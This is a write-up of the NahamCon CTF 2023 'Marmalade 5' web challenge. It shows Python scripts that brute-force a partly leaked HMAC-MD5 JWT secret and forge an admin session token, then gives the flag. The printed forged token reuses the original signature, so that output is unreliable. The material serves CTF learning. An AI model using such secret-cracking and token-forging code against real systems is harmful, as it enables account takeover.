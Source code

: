 ```yaml
---
name: Marmalade 5 (2023)
event: Nahamcon CTF 2023
category: Web
description: Writeup for Marmalade 5 (Web) - Nahamcon CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Marmalade 5

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/3LRZsnSyDrQ/0.jpg)](https://www.youtube.com/watch?v=3LRZsnSyDrQ "Nahamcon CTF 2023: Marmalade 5 (Web)")

## Description

> Enjoy some of our delicious home made marmalade!

## Recon

Can't register as `admin`.

```bash
Login as the admin has been disabled
```

Register as `cat` and it says only `admin` can get flag!

Check the [JWT](https://youtu.be/GIq3naOLrTg) in session cookies.

```json
eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w
```

Decode it with [jwt.io](https://jwt.io)

```json
{
  "alg": "MD5_HMAC"
}
{
  "username": "cat"
}
```

## First attempts

Tried `null` and `none` algorithm attacks with `jwt_tool`.

```bash
jwt_tool eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w -X a -pc username -pv admin
```

When trying to use the tokens, get an error.

```bash
Invalid algorithm, we only accept tokens signed with our MD5_HMAC algorithm using the secret fsrwjcfszeg*****
```

So we know the first 11 characters of the key `fsrwjcfszeg`, let's try to brute force the last 5.

Tried `jwt_tool` but it doesn't work with the `MD5_HMAC` algorithm.

```bash
jwt_tool eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w -C -p fsrwjcfszeg*****

Algorithm is not HMAC-SHA - cannot test with this tool.
```

Same goes for `hashcat`.

```bash
hashcat -a 3 -m 16500 'eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w' fsrwjcfszeg?l?l?l?l?l

Hash 'eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w': Token length exception
No hashes loaded.
```

## Solve script #1 (brute-force)

Let's (me and chatGPT) make a custom script to crack the signature.

```python
import jwt
import hashlib
import hmac
import base64

jwt_token = "eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w"

def verify_jwt(jwt_token, key):
    # Split the JWT into header, payload, and signature
    header, payload, signature = jwt_token.split('.')

    # Recreate the signing input by concatenating the header and payload with a dot
    signing_input = header + '.' + payload

    # Convert the signing input and key to bytes
    signing_input_bytes = signing_input.encode('utf-8')
    key_bytes = key.encode('utf-8')

    # Create an HMAC-MD5 hash object
    hash_obj = hmac.new(key_bytes, signing_input_bytes, hashlib.md5)

    # Get the HMAC-MD5 signature
    calculated_signature = hash_obj.hexdigest()

    # Decode the Base64-encoded signature from the JWT
    decoded_signature = base64.urlsafe_b64decode(signature + "==")

    # Compare the decoded signature with the calculated signature
    if decoded_signature == bytes.fromhex(calculated_signature):
        print("Key:", key)
        exit(0)

# Define the character set and key length
charset = "abcdefghijklmnopqrstuvwxyz"
key_length = 5

# Loop through different keys
for i in range(len(charset) ** key_length):
    key = ""
    for j in range(key_length):
        key = charset[i % len(charset)] + key
        i //= len(charset)

    verify_jwt(jwt_token, 'fsrwjcfszeg' + key)
```

Got the key!

```bash
Key: fsrwjcfszegvsyfa
```

## Solve script #2 (forge token)

Now another custom script to forge a token with user `admin`.

```python
import jwt
import hashlib
import hmac
import base64

jwt_token = "eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImNhdCJ9.C3Z8QcoVXXFa-LAzFZbZ1w"
key = "fsrwjcfszegvsyfa"

# Split the JWT into header, payload, and signature
header, payload, signature = jwt_token.split('.')

# Decode the payload from the token
decoded_payload = base64.urlsafe_b64decode(payload + "==").decode('utf-8')

# Modify the payload
modified_payload = decoded_payload.replace('"username":"cat"', '"username":"admin"')

# Encode the modified payload
encoded_payload = base64.urlsafe_b64encode(modified_payload.encode('utf-8')).decode('utf-8').rstrip('=')

# Recreate the signing input by concatenating the header and modified payload with a dot
signing_input = header + '.' + encoded_payload

# Convert the signing input and key to bytes
signing_input_bytes = signing_input.encode('utf-8')
key_bytes = key.encode('utf-8')

# Create an HMAC-MD5 hash object
hash_obj = hmac.new(key_bytes, signing_input_bytes, hashlib.md5)

# Get the HMAC-MD5 signature
calculated_signature = hash_obj.digest()

# Encode the calculated signature using base64
encoded_signature = base64.urlsafe_b64encode(calculated_signature).rstrip(b'=').decode('utf-8')

# Replace the characters '+' and '/' in the encoded signature with '-' and '_'
encoded_signature = encoded_signature.replace('+', '-').replace('/', '_')

# Create the modified JWT by concatenating the modified header, encoded payload, and encoded signature
modified_jwt = header + '.' + encoded_payload + '.' + encoded_signature

print("Modified Token:", modified_jwt)
```

Receive a new token, signed with `MD5_HMAC` using the secret key `fsrwjcfszegvsyfa`.

```bash
eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.C3Z8QcoVXXFa-LAzFZbZ1w
```

We replace the cookie and receive a flag!

Flag: `flag{a249dff54655158c25ddd3584e295c3b}`

